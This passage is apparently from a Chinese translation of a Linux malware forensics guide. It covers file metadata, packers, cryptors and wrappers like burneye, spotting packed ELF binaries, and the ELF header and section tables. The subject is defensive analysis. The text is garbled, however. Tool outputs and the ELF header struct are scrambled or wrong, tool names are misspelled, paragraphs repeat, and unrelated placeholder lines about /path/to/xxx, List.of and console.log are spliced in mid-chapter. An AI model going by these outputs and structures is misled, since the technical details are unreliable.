- 观察图 5.34 从可疑文件中收集的信息，`extract` 用于识别并解析文件中的四项元数据，包括：文件依赖项、目标架构和处理器、文件识别以及 MIME 类型 (`mimetype`)。输出中还显示了关于目标二进制文件的信息，包括由于依赖 `libc.so.6`（对 GLIBC 的引用），该程序是用 C 语言编写的概率。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ extract -V sysfile
Keywords for file sysfile:
dependence - libc.so.6
created - i386
resource-type - Executable file
mimetype - application/x-executable
```

图 5.34——解析可疑文件的元数据

## 调查考虑因素

- 警告：作为嵌入字符串，文件元数据可以被攻击者修改。时间和时间戳、文件版本信息以及看似有用的元数据通常是攻击者修改的目标，他们以此阻碍研究人员和调查人员追踪其攻击路径。文件元数据必须结合从事件发现现场收集的所有数字和网络证据进行上下文的审查和考虑。

- 通常，感兴趣的元数据项会被攻击者通过对文件进行打包或加密来隐藏（在本章稍后部分讨论）。

## 其他可考虑的工具

### Meta-Extractor 和 Hachoir-Metadata

元数据提取是信息安全和取证分析的一个新兴领域。除了可以从二进制文件中提取元数据的工具外，在取证检查或网络侦察过程中从文档和图像文件中提取元数据也可能为你的调查提供价值信息。元数据提取工具“Meta-Extractor”由新西兰图书馆开发，用于从多种文件格式程序化地提取元数据，包括 PDF 文档、图像文件、音频和 Microsoft Office 文档等。该工具最初开发于2003年，并于2007年作为开源软件发布。项目的 SourceForge 页面位于 `http://meta-extractor.sourceforge.net/`，当前版本可以从 `http://sourceforge.net/project/files.php?group_id=189407` 下载。

### Hachoir-Metadata

`Hachoir-Metadata` 是一个二进制解析器，属于 `Hachoir` 项目的一部分，`Hachoir-wai` 是 `Hachoir` 工具套件的 GUI 前端。

更多信息请访问：`https://github.com/haypo/hachoir/wiki/Home`。

进一步的讨论和比较可以在本章末尾的“工具箱”部分以及辅助网站 `http://www.malwarefieldguide.com/LinuxChapter5.html` 中找到。

## 混淆：打包与加密识别

到目前为止，本章重点关注审查和分析可疑文件内部及相关数据的方法。“在野外”的恶意软件往往表现为被装甲或混淆的状态，主要是为了绕过防病毒软件和入侵检测系统等网络安全机制。

混淆也被用于保护可执行文件的内部结构免受病毒研究人员、恶意软件分析师以及对逆向工程和代码研究感兴趣的信息安全专业人员的窥视。

- 此外，在如今的地下黑客经济中，文件混淆不再是为了锁住“好人”，而是防止其他攻击者检查代码。精明且机会机主义的网络罪分子可以分析代码，确定攻击者在何处控制受感染的计算机或存储价值信息（如键盘记录器内容或信用卡信息），并“劫持”他们自己通过钓鱼、垃圾邮件、点击、欺诈或其他形式的欺诈在线内容获得的非法利润。

- 鉴于存在“陷阱”，攻击者使用各种程序来模糊和保护其文件内容；在敌性代码上应用多层或组合的文件混淆并不罕见，以确保其保持不可检测状态。

- 在 Linux 环境中，攻击者用于伪装其恶意软件的主要文件混淆机制包括打包（packers）、加密（在黑客圈中被称为“cryptors”）和外壳（wrappers），如图 5.35 所示。让我们来看看这些工具是如何运作的，以及如何识别它们。



图 5.35–混淆代码

## 打包器 (Packers)

- `packer`（打包）、`compressor`（压缩器）和 `packing`（打包）术语在信息安全和黑客社区中泛指文件混淆程序。

- 打包器是允许用户压缩并在某些情况下加密可执行文件内容的程序。打包程序通过压缩原始二进制文件工作，从而混淆“新”可执行文件内部的内容。打包程序会写入一个解压存根（stub），通常位于文件末尾，并将可执行文件的入口点指向该存根。

- 尽管打包器压缩了可执行文件的内容并通常会减小打包文件的大小，但这些程序的主要目的并非像 `Zip`、`Rar` 和 `Tar` 等压缩工具那样节省磁盘空间。相反，其目的是隐藏或模糊文件内容，以绕过防病毒和入侵检测系统（IDS）等网络安全机制。

- 如图 5.36 所示，执行打包程序时，解压程序会在运行时将可执行文件提取到内存中。

- 在大量的打包器中，适用于 Windows 平台和 PE 文件。针对 ELF 二进制文件的打包器相对较少，攻击者有时只需从文件中删除符号和调试信息，以此干扰代码的逆向工程。



图 5.36-打包恶意软件的执行

## 加密器 (Cryptors)

- 可执行文件加密程序或加密器（在地下世界中有广为人知的俗称 `cryptors` 或 `protectors`）对于使用打包程序的攻击者来说具有相同的目的。它们被设计用于隐藏可执行程序的内容，使其无法被防病毒和 IDS 检测，并抵抗任何逆向工程或劫持尝试。

- 与打包程序不同，加密器通过对可执行文件应用加密算法来实现这一目标，导致目标文件的内容变得杂乱且无法破解。

- 与文件打包器类似，加密器会将包含解密例的存根写入加密后的目标执行文件，从而更改原始二进制文件的入口点。如图 5.37 所示，在执行加密程序时，解密程序在运行时动态提取原始可执行文件并触发其执行。

## 壳程序 (Wrappers)

- 文件壳程序（File wrappers）是通过在目标文件周围添加额外的混淆和加密层来保护可执行文件，本质上是创建一个新的可执行文件。

- 壳程序在 Windows PE 文件绑定器（binders）功能上等同，但被赋予了独特的名称。最常见的 ELF 可执行文件壳之一可能是 Team Teso 的 *burneye*，这是一种用于保护 Intel x86 Linux 操作系统上的 ELF 二进制文件的封装程序。

- `Burneye` 支持多种选项，可以使用多层加密和混淆层对二进制可执行文件进行封装。总共有三层保护，可以独立使用或共同使用，如图 5.38 所示。

- `burneye` 提供的第一层（外层）保护是*混淆*层，这是一种简单的加密算法，用于打乱二进制可执行文件的内容。程序作者将该层标识为“最简单”的，因为它主要作为一种阻碍和模糊反向工程努力的措施。

- 第二层是密码层，允许用户使用自定义密码作为加密密钥对二进制文件进行加密。这导致文件内容被加密，恶意软件调查人员无法读取，除非该样本能够使用攻击者的密码解锁。

- `burnee` 提供的最后一层保护是指纹层，它收集与特定主机系统特征相关的某些信息（如 CPU 类型、内存大小等），并将这些整合作为执行的必要标准。特别是，`burnee` 为封装的二进制可执行文件附加了代码，该二进制文件只有在符合指纹层所规定标准的环境中才会执行。该层的目的是进行战略性目标定位和可执行文件保护，确保封装的程序运行在攻击者专门针对的系统上，而不是运行在安全和恶意软件分析师及反向工程人员使用的随机系统上。

- 虽然 `burnee` 确实为分析带来了挑战，但最后，许多数字调查人员会使用 `Fenris` 来攻击被 `Burney` 封装或其他混淆的二进制文件。⁶ `Fenris` 是一种多用途跟踪器、状态分析器和部分反汇编译器，它允许恶意软件分析人员进行程序结构跟踪，并获取有关二进制文件内部结构、执行路径和内存操作等通用信息。

> 防止第三方反向工程和研究代码的担忧并非恶意软件分析师和狂热的网络安全专业人员专利。攻击者也不希望其他攻击者获取他们的代码。为什么？因为当前的恶意软件威胁格局揭示了一个日益增长的趋势：攻击者主要利用恶意软件获取利益：垃圾邮件、点击欺诈、网络钓鱼、有害安装、身份盗窃——列表还在不断增加。攻击者不希望其他攻击者访问他们协助犯罪的计算机集群。同样，攻击者也不希望其他攻击者创建新的恶意软件，或修改现有代码以达到“劫持”或感染已感染且易受的机器的效果。在分析恶意可执行文件期间，你经常看到对其他恶意名称的引用。通常，这些是被代码杀死的进程列表。因此，当新的敌程序在易受的系统上执行时，它将杀死并“驱逐”之前的恶意样本，实际上是从之前的攻击者手中夺取控制权。

### 分析小贴士

“道之间没有仁义”

## 识别混淆文件

- 为了有效解混淆受保护的二进制文件并分析未受保护的代码，数字调查人员首先需要确定文件是否经过了混淆。

- 在分析混淆的 ELF 文件时，你将识别出许多表明该文件以某种方式受到保护或武装的因素。

- 在本节中，为了说明未混淆和混淆 ELF 二进制可执行文件在工具输出和文件特征上的区别，我们使用常用的二进制打包程序对怀疑文件 `sysfile` 进行混淆，并将其重命名为 `packed_sysfile` 以在示例中清晰区分。

- 接下来，我们将通过分析过程中的某些步骤，以便你在调查或分析过程中获得混淆恶意软件时能够识别并识别差异。在此过程中你会看到的基本主题是“没有”——没有可读的字符串、没有可见的文件依赖或共享库、没有可见的程序头。

- 首先，当你查询目标文件以识别文件类型时，可能会遇到异常或错误的文件描述符和损坏错误，这是由于文件中的某些头和共享库引用被打包程序修改或隐藏导致的。

- 对怀疑二进制文件运行 `file` 命令（图 5.39），该文件被识别为静态编译的，根据我们之前对未混淆文件的说明，我们它不是这样的（图 5.1）。此外，`file` 工具识别出节头（section header）已损坏。

```
lab@Malware:~/home/malware$file packed_sysfile
packed_sysfile: ELF 32-bit LSB executable, Intel 8036, version 1, statically linked, corrupted section header
```

- 与 Windows 系统上 PE 文件的处理不同（通过运行 `PEID` 等文件检测工具来确定样本已打包），这主要是由于 Linux 平台缺乏可用的打包工具。目前，所有的混淆工具都只查询 PE 文件是否存在打包和其他混淆代码，这使得它们对 ELF 样本无用武处。⁶2

- 因此，Linux 环境中没有事实上的打包检测工具。在某些情况下，防病毒工具可能会识别出许多打包签名，但数量通常有限，且检测结果不可靠。

- `lida`^63 有一个基础的加密分析器模块，可以查询怀疑二进制文件中是否存在潜在的加密/解密路径。加密分析模块的目的是找到加密或解密算法所在的代码块，而不是分析二进制文件是否可能加密，如图 5.40 所示。遗憾的是，该工具没有足够的加密算法签名（在本文编写时，它可以识别二进制加密算法为 `ripen60`, `md2`, `md4`, `md5`, `blowfish`, `cast`, `des`, `rc2` 和 `sha`），因此它不是判断加密存在的确定性方法。

--- 更多关于 `Burnump` 的信息，请访问 `http://www.securiteam.com/tools/5BP0H0U7PQ.html`。

更多关于 `BurnInHell` 的信息，请访问 `http://www.securiteam.com/tools/6T0N0K5SY.html`。

⁶ 更多关于 `Fenris` 的信息，请访问 `http://lcamutf.coredump.com/fenris/`

⁶1 更多关于 `packerid.py` 的信息，请访问 `http://handlers.sans.org/jusing/packerid.py`.

62 更多关于 `Wine` 的信息，请访问 `http://www.winehq.org`.

63 更多关于 `lida` 的信息，请访问 `http://lida.sourceforge.net`.

64 更多关于 `CIAT` 的信息，请访问 `http://sourceforge.net/projects/ciat/`

## 第 5 章 | 文件识别与分析

## 调查考量

- 由于混淆检测工具有限，数字取证调查员往往需要通过识别文件分析过程中的某些指标，来确认其对文件被加壳的怀疑。在用 `file` 工具对可疑二进制文件进行查询后，探测程序的文件的依赖项，以发现异常指标，如图 5.42 所示。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ ldd packed_sysfile
not a dynamic executable
```

**图 5.42**-在混淆的二进制文件中搜索文件依赖项

- 查询结果显示该文件未被识别为动态执行文件，因此没有可识别的依赖项。由于对可执行二进制文件使用了加壳程序，`file` 工具无法识别运行时库依赖项，因为从文件中只能提取出静态链接的提取器存根（extractor stub）——相反，有元数据将不仅仅是基础识别数据，如图 5.43 所示。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ extract packed_sysfile
mimetype - application/elf
```

**图 5.43**-在混淆的二进制文件中搜索元数据

- 进一步通过 `nm` 命令扫描文件中的符号信息，探测可疑二进制执行文件以寻找线索。一个可能被混淆代码保护的可疑执行文件可能不会产生符号信息，如图 5.44 所示。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ nm packed_sysfile
nm: packed_sysfile: no symbols
```

**图 5.44**-查询混淆二进制文件的符号引用


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

识别文件是否已加壳的另一个重要线索是，ELF 入口点通常位于以 `0x08` 开头的地址，且最后几个字节略有不同。使用 `readelf` 工具（在本章的下一节中详细讨论），数字取证调查员可以转储 ELF 文件头，这将揭示文件的入口地址。

在检查可疑二进制文件的文件头时，我们看到入口点是不规则的 `0xc04bf4`，这进一步证实了该恶意二进制文件已应用加壳程序（图 5.45）。

### LINUX 系统恶意软件取证指南

```
lab@MalwareLab:~//home/malwarelab/Malware Repository$ readelf -h packed_sysfile
ELF Header:
  7f 45 4c 46 4c 01 01 01 00 4c 69 78 78 08 00 00 00
Class:               ELF32
Data:                2's little endian
Version:             1 (current)
OS/ABI:              UNIX - System V
ABI Version:         76
Type:                EXEC (Executable file)
Machine:             Intel 80386
Version:             0
0xc004f4
Entry address:      52 (bytes into file)
Start of program headers: 0 (bytes into file)
Size of this header:  0d
Size of program headers: 52 (bytes)
Number of program headers: 32 (bytes)
Size of section headers: 2
Number of section headers: 0 (bytes)
Section header table index: 0
```

混淆二进制文件的入口地址

除了检查入口点地址外，识别加壳或混淆样本的最具说明性的步骤之一是检查文件字符串（`strings`）。当对于未混淆的程序时，`strings` 工具将显示一些有价值的、可读的明文字符串。

相反，当对已加壳或其他混淆的二进制执行文件进行字符串探测时，输出仅仅是无法识别的随机字符，很多时候长度都不超过八个字符，如图 5.46 所示。

然而，当可疑二进制文件的字符串经过混淆时，请务必筛选整个输出。许多时候，用于混淆执行样本的工具会留下自身的完整或部分明文标签，包括程序名称。例如，UPX 加壳工具会在混淆二进制文件的底部嵌入非常具体且详细的产物，如“This file is packed with the UPX executable package-http://upx.sf/netIdX 2.01 Copyright (C) 1996-2006 UPX Team. All Rights Reserved”，如图 5.46 所示。

在某些情况下，用防病毒软件查询加壳的执行文件会发现该样本是不可检测的，证明了曾经识别出的恶意已被混淆，以至于其恶意性对于防病毒软件是不可见的。这一步比任何事情都具证实性，因为它并没有识别文件加壳的存在，尽管某些防病毒软件会识别某些文件签名。

通常，如果可疑二进制文件以某种方式被混淆，进行额外的文件分析（如 ELF 文件分析）将是不可能的。因此，你可能需要在对程序进行进一步探索之前首先提取加壳的样本。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ strings packed_sysfile
|more
>a_m
<u
A$
g7k%m
g.ut&m
` `-
|$SM
gj}
$ d
\v0j
win
=5(e
ed{
rr {
  _SA
Pe>L
M6b
```

**图 5.46**-从从加壳的二进制文件中提取字符串

## 可执行与可链接格式 (ELF)

除了检查入口点地址外，识别加壳或混淆样本的最具说明性的步骤之一是检查文件字符串。当对于未混淆的程序时，`strings` 工具将显示一些有价值的、可读的明文字符串。

相反，当对已加壳或其他混淆的二进制执行文件进行字符串探测时，输出仅仅是无法识别的随机字符，很多时候长度都不超过八个字符，如图 5.46 所示。

然而，当可疑二进制文件的字符串经过混淆时，请务必筛选整个输出。许多时候，用于混淆执行样本的工具会留下自身的完整或部分明文标签，包括程序名称。例如，UPX 加壳工具会在混淆二进制文件的底部嵌入非常具体且详细的产物，如“This file is packed with the UPX executable package-http://upx.sf/netIdX 2.01 Copyright (C) 1996-2006 UPX Team. All Rights Reserved”，如图 5.46 所示。

在某些情况下，用防病毒软件查询加壳的执行文件会发现该样本是不可检测的，证明了曾经识别出的恶意已被混淆，以至于其恶意性对于防病毒软件是不可见的。这一步比任何事情都具证实性，因为它并没有识别文件加壳的存在，尽管某些防病毒软件会识别某些文件签名。

通常，如果可疑二进制文件以某种方式被混淆，进行额外的文件分析（如 ELF 文件分析）将是不可能的。因此，你可能需要在对程序进行进一步探索之前首先提取加壳的样本。

`ELF` 是一种二进制格式，最初由 UNIX 实验室（USL）作为二进制接口（TIS）委员会开发并发布，以取代缺乏灵活的前身通用文件格式（COFF）。`ELF` 用于三种主要的对象文件：可重定位文件、执行文件和共享对象文件。自从开发以来，`ELF` 已成为许多 Linux 和 Unix 操作系统的标准执行格式。除了执行文件外，`ELF` 还是对象代码和共享库的标准。`ELF` 文件格式和结构在 `/usr/include/elf.h` 头文件中描述，`ELF` 规范记录在 TIS 可执行与链接格式中，可从 `http://refspecs.linuxbase.org/elf.pdf` 获取。根据文件上下文，`ELF` 格式有两种截然不同的视图，如图 5.47 所示。

首先是链接视图，它包含节头表和相关的节。

其次是*执行视图*，它显示了 `ELF` 执行文件加载到内存中的内容，包含了程序头和程序段。

为了更好地理解 `ELF` 执行文件及其许多结构，在本节中，我们将演示如何使用 `binutils` 中的 `readelf` 工具以及来自 ERESI 框架的 `ELF Shell`（`elfsh`）以及其他相关工具对恶意 `ELF` 进行探索。

在审查 `ELF` 条目后（这通常非常详尽），考虑通过逐个审查每个结构和子组件来缓慢剥离数据；即从 `ELF` 头部开始分析，遍历所有的结构和节，并仔细注意存在的数据，也许可能就

## 第 5 章 | 文件识别与特征分析


图 5.47--ELF 文件格式的两种视图

## 使用 ELF Shell (elfsh)

要在 `elfsh` 中检查可疑的 `ELF` 二进制文件，你需要首先加载该文件。

要执行此操作，在提示符上输入 `elf` 命令来调用 `elf`，它会在括号中显示 `elfsh` 版本（例如 `elfsh-0.65`）。

执行后，你将进入 `ELF` shell 环境，该环境提供了许多命令来探测你的二进制文件。输入 `load` 命令，随后跟随要分析的可疑 `ELF` 文件的路径和名称。

文件加载后，你就可以准备检查文件的各种结构了。如果你想查看项目菜单，只需输入 `help` 即可🛠

## ELF 头 (elf32_ehdr)

`ELF` 可执行文件的第一部分是 `ELF` 头，`elf32_ehdr`，它识别文件类型和目标处理器，并包含执行和加载到内存所需的所需的结构详细信息。本质上，`ELF` 头充当了文件内容及相应地址的`路线图`，如图 5.48 和 5.49 所示。

# LINUX 系统恶意软件取证现场指南


```
typedef struct {
    unsigned char e_ident[EI_NIDENT]; /* Magic number and other info（魔数数及其他信息） */
    uint16_t e_type;               /* 对象文件类型 */
    uint16_t e_machine;            /* 架构 */
    uint8_t e_version;             /* 对象版本 */
    uint32_t e_entry;              /* 入口点虚拟地址 */
    uint32_t e_phoff;              /* 程序头表偏移量 */
    uint32_t e_shoff;              /* 节头表偏移量 */
    uint16_t e_flags;              /* 处理器特定标志 */
    uint16_t e_ehize;              /* ELF 头的大小（字节） */
    uint8_t e_phentsize;           /* 程序头条目大小 */
    uint8_t e_phnum;               /* 程序头表计数 */
    uint16_t e_shsize;             /* 节头表条目大小 */
    uint8_t e_shnum;               /* 节头表计数 */
    int16_t e_strndx;              /* 节头字符串表索引 */
} Elf32_hdr;
```

图 5.49--ELF 头

* `ELF` 头中调查感兴趣的字段包括：

  - `e_ident` 结构，它包含 `ELF` “魔数”，如图 5.50 所示，因此当通过文件工具查询时，会将该文件识别为 `ELF`。
  - `e_type` 结构揭示了文件的性质；例如，如果 `e_type` 被识别为 `ET_EXEC`，则该文件是可执行文件，而不是共享对象库；以及

# 第 5 章 文件识别与特征分析



```
labMalwareLab:~/home/malwarelab/Malware Repository$ readelf --file-header sysfile
ELF Header:
Magic: 7f 45 46 4c 46 01 01 01 00 00 00 00 00 00
Class: ELF32
Data: 1 (complement, little endian)
Version: UNIX - System V
ABI: 0
Type: EXEC (executable file)
Machine: Intel 80386
Version: 0x804d4
Entry point address: 52 (bytes into file)
Start of program headers: 27108 (bytes into file)
Flags: 0x0
Size of this header: 52 (bytes)
Size of program headers: 32 (bytes)
Number of program headers: 6
Size of section headers: 40 (bytes)
Number of section headers index: 31
```

图 5.50--e_ident 结构

图 5.51--使用 readelf 表格和程序表提取 ELF 头

节头表（Section Header Table）的偏移量分别可以在 `e_shoff` 和 `e_phoff` 中标识。

使用带有 `-h` 或 `--file-header` 选项的 `readelf`，数字取证人员可以从可疑文件中提取 `ELF` 头（图 5.51）。

另一种，使用 `elfsh`，只需在加载后输入 `elf` 命令即可。通过在 `elfsh` 中查看 `ELF` 头，可以渲染出头的另一种视图，如图 5.52 所示。

我们学到，这是一个 32 位的 `ELF` 可执行文件，是为 Intel 80386 处理器编译的。深入研究可以发现，入口点地址为 `0x8048dd4`，这是 `ELF` 文件的标准做法。由于入口点并不寻常，这是一个文件没有经过加壳或加密的良好线索。此外，除了入口点地址外，提取的头详细列出了程序头和节头的大小及地址。

# LINUX 系统恶意软件取证现场指南

elfsh-0.65)

```
[ELF HEADER] ELF 0x4C657F
Architecture: Intel 80386 SHT strtab : 1
Object type: Executable object SHT version : 31
Data encoding: Little endian SHT offset : 0027108
PHFT header: 0000502 SHT entries : 34
PHS size : 32 SHT entry : 40
PHT entry size : 17942365 ELF header size : 52
Runtime point: 0x8048d4 Fingerprinted : Linux
[flags] = 0 EXEC: Restricted ELTRAM: eliminated READ: Restricted RDWM: Randomized ND: Not randomized SEGM: Enabled
```

图 5.52--使用 elf 提取 ELF 头

为了更好地了解 `ELF` 头是如何定义的，以及预期结构和相应的地址，请查看 `/usr/include/elf.h` 文件。

## 节头表 (Elf32_shdr)

从 `ELF` 头中收集信息后，我们将检查节头表，它用于定位和解释 `ELF` 二进制文件中的所有节。

节头表由节数组（Array of Sections）或 `Elf32_shdr` 结构组成，包含了 `ELF` 中的大部分数据。

如图 5.53 和 54 所示，节头中的每个结构都标识了名称 (`sh_name`)、类型 (`sh_type`)、虚拟地址 (`sh_addr`)、文件偏移 (`sh_offset`)、字节大小 (`sh_size`)、关联标志 (`sh_flags`)、指向其他节的链接 (`sh_link`) 以及其他信息。

数字取证人员特别感兴趣的是节头的 `sh_type` 成员，它对节的内容和语义进行分类，如图 55 所示。对 `sh_type` 结构的审查将描述节的性质，包含程序和控制信息；通过解析 `sh_type` 结构的内容，数字取证人员将能够识别文件的符号表（`SHT_SYTAB..symtab`, `SHT_DYNS..dynym`）以及字符串表（`SHT_STRTAB..strtab`），如节所述，这在可疑程序的特征分析过程中非常有帮助。


图 5.53--节头表

```
typedef struct {
    Elf32_Word sh_name;
    Elf32_Word sh_type;
    Elf32_Word sh_flags;
    Elf32_Word sh_addr;
    Elf32_Off sh_offset;
    Elf32_Word sh_size;
    Elf32_Word sh_link;
    Elf32_Word sh_info;
    Elf32_Word sh_addalign;
    Elf32_Word sh_entsize;
} Elf32_Shdr;
```

图 5.54--节头表



图 5.55--ELF sh_type 结构


# LINUX 系统恶意软件取证现场指南

## 调查考虑因素

- ELF 样本中可能包含许多其他节。图 5.56 显示并描述了一些常见的 ELF 节。需要注意的是，这既不是完整列表，也不是每个 ELF 样本中节的最终外观。

| | 进程映像中的未初始化数据 |

|---|---|

| ELF Header | comment | 版本控制信息 |

| .data | 进程映像中的初始化数据 |

| data1 | 进程映像中的初始化数据 |

| debug | 符号调试信息 |

| dynamic | 动态链接信息 |

| dynstr | 动态链接所需的字符串 |

| dynym | 动态链接符号表 |

| fni | 进程终止指令 |

| .get | 全局偏移表 |

| hash | 符号哈希表 |

| .init | 进程初始化指令 |

| interp | 包含程序解释器的路径 |

| line | 符号调试的行号 |

| .note | 合规性：程序检查信息 |

| plt | 过程链接表 |

| rename | 重定位信息 |

| .rodata | 重定位信息 |

| .data1 | 只读数据 |

| .dstrtab | 节名称 |

| .strtab | 符号表条目字符串 |

| .symtab | 符号表 |

| .text | 程序的可执行指令 |

图 5.56-ELF 节

- 既然有这么多潜在的节，要确定详细分析哪些节以获得有关 ELF 二进制文件的进一步见可能是挑战性的。数字取证人员至少应考虑探索八个节，以获取文件中进一步的上下文和意义线索。由于每个二进制文件都是独特的，因此经常会有值得进一步检查的独特节。

- `.rodata` 包含只读数据。

- `.dynym` 包含动态符号表。

- `.symtab` 包含符号表。

- `.debug` 包含符号调试信息。

- `.dynstr` 包含动态链接所需的字符串。

- `.comment` 包含版本控制信息。

- `.strtab` 包含与符号表条目相关的字符串。

## 第5章 | 文件识别与分析

315

文本包含程序的可执行指令。我们将在本章的后后部分展示如何提取这些特定节的内容。

- 要显示可疑文件的节头表（Section Header Table），可以使用带有 `--section-headers` 选项的 `readelf`。如果你倾向于使用 `elfutils` 版本的 `readelf`（`eu-readelf`），该工具也提供了对样本进行检查的功能。同样，如果你使用 `elf` 进行检查，请使用 `use-` 命令来提取节头表。

- `readelf` 的输出按名称、类型、地址和大小显示可疑文件中的 ELF 节。这非常有帮助，特别是在转储特定节的内容时。

- 在此之前，我们识别了 ELF 文件中一些感兴趣的常见节。通过查看图 5.57，我们看到目标文件还有其他感兴趣的节，包括 `.gnu.version` 以及许多调试节，数字调查人员应该进一步查看文件内部这些内容。要获取更细粒度的细节，请使用 `readelf -t` 命令或对可疑文件应用 `elfdump` 命令，如图 5.58 所示。

```
lab@Malwarelab:~/home/malware/Malware Repository reread --section-headers myfile
There are 34 sections, starting at offset 0x69a4:
Section Headers:
| Name | Type | Off | Size | ES | Flag | Link | Inf |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| [0] | NULL | 00000000 | 00000000 | 00000000 | A | 0 | 0 |
| [1].interp | PROBITS | 000008f4 | 000008f4 | 00000013 | A | 0 | 1 |
| [2].note_abi | NOTE | 00000a18 | 00000a18 | 00000020 | A | 0 | 4 |
| [3].shtab | SHTAB | 00000b18 | 00000b18 | 00000016 | A | 0 | 4 |
| [4].dynym | DYNSYM | 00000a28 | 00000a28 | 00000510 | A | 5 | 1 |
| [5].dynstr | STTAB | 00000a38 | 00000a38 | 000005d0 | A | 5 | 1 |
| [6].debug | STAB | 000007f6 | 000007f6 | 00000057 | A | 0 | 1 |
| [7].gnu.version | VERHDR | 00008b64 | 00008b64 | 00000330 | A | 0 | 1 |
| [8].note | PROBITS | 00008c99 | 00008c99 | 000000b8 | A | 0 | 0 |
| [9].rel.plt | PROBITS | 00008bf4 | 00008bf4 | 000004ad | A | 4 | 11 |
| [10].init | PROBITS | 000084c4 | 000084c4 | 00000217 | AX | 0 | 0 |
| [11].rodata | PROBITS | 000084e4 | 000084e4 | 00000374 | AX | 0 | 0 |
| [12].text | PROBITS | 000084d4 | 000084d4 | 00000390 | AX | 0 | 0 |
| [13].finit | PROBITS | 000084e4 | 000084e4 | 000003b1 | AX | 0 | 0 |
| [14].data | PROBITS | 000085f4 | 000085f4 | 000001b3 | AX | 0 | 12 |
| [15].eh_frame | PROBITS | 00007c34 | 00007c34 | 00000434 | AX | 0 | 0 |
| [16].comment | PROBITS | 00000512 | 00000512 | 000000c8 | W | 0 | 8 |
| [17].dynamic | DYNAMIC | 00004120 | 00004120 | 00000510 | W | 0 | 8 |
| [18].ctors | PROBITS | 000081e8 | 000081e8 | 000000a8 | W | 0 | 0 |
| [19].relsym | PROBITS | 000081f6 | 000081f6 | 000000a4 | W | 0 | 0 |
| [20].jcr | PROBITS | 000081f8 | 000081f8 | 000000a4 | W | 0 | 0 |
| [21].got | PROBITS | 000081fc | 000081fc | 000000a4 | W | 0 | 0 |
| [22].dyn.plt | PROBITS | 00008200 | 00008200 | 000000d2 | W | 0 | 32 |
| [23].comment | PROBITS | 00000000 | 00000000 | 00000012 | AX | 0 | 0 |
| [24].debug_ranges | PROBITS | 000005b8 | 000005b8 | 00000053 | AX | 0 | 0 |
| [25].debug_info | PROBITS | 000005a0 | 000005a0 | 000006a0 | AX | 0 | 0 |
| [26].reltab | PROBITS | 000005b0 | 000005b0 | 000000d4 | AX | 0 | 1 |
| [27].debug_line | PROBITS | 000005d9 | 000005d9 | 00000204 | AX | 0 | 0 |
| [28].debug_frame | PROBITS | 000005e4 | 000005e4 | 00000204 | AX | 0 | 0 |
| [29].debug_frame | PROBITS | 000006f0 | 000006f0 | 00000014 | AX | 0 | 0 |
| [30].strtab | STTAB | 000006b0 | 000006b0 | 00000126 | AX | 0 | 0 |
| [31].strtab | STTAB | 000006c4 | 000006c4 | 00000074 | AX | 0 | 0 |
| [32].strtab | STTAB | 00000674 | 00000674 | 000000f4 | AX | 0 | 0 |
| [33].strtab | STTAB | 000000c8 | 000000c8 | 000000e8 | AX | 0 | 0
Flags:
W (write), A (alloc), x (execute), M (merge), G (group), o (unknown), p (processor)

SECTION HEADER TABLE:

| Index | Name | Offset | Size |
| :--- | :--- | :--- | :--- |
| 000 | NULL | 00000000 | 00000000 |
| 001 | interp | 00000244 | 00000019 |
| 002 | note.abi | 00000264 | 00000032 |
| 003 | shtab | 00000296 | 00000084 |
| 004 | dynym | 00000172 | 00000050 |
| 005 | dynstr | 00000232 | 00000036 |
| 006 | debug | 00000192 | 0000005a |
| 007 | gnu.version | 00000278 | 00000048 |
| 008 | note | 00000288 | 00000056 |
| 009 | rel.plt | 0000027c | 0000006b |
| 010 | init | 0000023c | 00000027 |
| 011 | rodata | 0000025c | 00000074 |
| 012 | text | 00000244 | 00000090 |
| 013 | finit | 0000025c | 00000079 |
| 014 | data | 0000027c | 00000044 |
| 015 | eh_frame | 00000234 | 00000114 |
| 016 | comment | 0000020a | 00000040 |
| 017 | dynamic | 00000160 | 00000110 |
| 018 | ctors | 000001f0 | 00000028 |
| 019 | relsym | 000001f4 | 00000024 |
| 020 | jcr | 000001f8 | 00000024 |
| 021 | got | 000001fc | 00000024 |
| 022 | dyn.plt | 00000200 | 00000050 |
